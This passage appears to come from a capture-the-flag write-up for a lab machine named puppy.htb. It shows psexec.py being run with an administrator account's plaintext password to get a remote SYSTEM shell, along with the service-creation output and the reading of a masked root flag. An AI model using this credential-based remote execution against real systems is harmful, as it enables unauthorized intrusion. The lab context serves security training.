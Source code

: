 so I got a remote shell using `psexec` and got the root flag

``` bash
$ psexec.py puppy.htb/steph.cooper_adm:'FivethChipOnItsWay2025!'@puppy.htb

[*] Requesting shares on puppy.htb.....
[*] Found writable share ADMIN$
[*] Uploading file ywsUEMsm.exe
[*] Opening SVCManager on puppy.htb.....
[*] Creating service pSTT on puppy.htb.....
[*] Starting service pSTT.....
 ^[[C[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.3453]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd ../../Users\Administrator\Desktop

dC:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 311D-593C

 Directory of C:\Users\Administrator\Desktop

05/12/2025  07:34 PM    <DIR>          .
03/11/2025  09:14 PM    <DIR>          ..
09/26/2025  10:09 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,631,047,168 bytes free

tC:\Users\Administrator\Desktop>type root.txt
a0****************************44

C:\Users\Administrator\Desktop>
```
